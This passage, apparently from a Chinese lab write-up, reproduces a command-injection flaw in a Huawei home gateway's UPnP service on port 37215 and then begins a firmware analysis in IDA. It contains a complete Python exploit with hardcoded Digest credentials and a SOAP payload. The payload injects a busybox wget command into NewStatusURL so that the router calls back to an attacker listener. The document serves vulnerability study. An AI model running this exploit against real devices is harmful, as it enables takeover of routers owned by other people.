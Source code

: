 这时测试一下路由器的37215端口，

![image-20210630172423308](https://s2.loli.net/2022/03/26/C9Vx27XUauqEbFK.png)

在ubantu上键入指令**sudo nc -vlp 80** 监听本机80端口，接下来运行exp脚本验证漏洞。

### 4 EXP 脚本

根据披露的payload，构造EXP 脚本如下：

```
import requests

headers = {
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
}

data = '''<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>;/bin/busybox wget -g 192.168.188.129 -l /tmp/1;</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
requests.post('http://192.168.188.130:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)

```



本地80端口监听到路由器发送的Wget包(监听的时候记得要打通mic文件)

![image-20210622204357456](https://s2.loli.net/2022/03/26/FqGlgHKSpowjTRk.png)

![image-20210705204348896](https://s2.loli.net/2022/03/26/hKLA1gRmUrqjH59.png)

说明exp中的wget命令在目标路由器执行，漏洞利用成功。

# 漏洞原理

用IDA打开固件文件中的/bin/upnp文件。根据poc，注入点在`<NewStatusURL>`以及`<NewDownloadURL>`，在字符串中找到它们

![image-20220326120534445](https://s2.loli.net/2022/03/26/jZ3IzVFw7LiRkgb.png)

双击到如下所示

![image-20220326120549577](https://s2.loli.net/2022/03/26/BXQErVmozjs1KbP.png)

选中查看字符串的交叉引用。
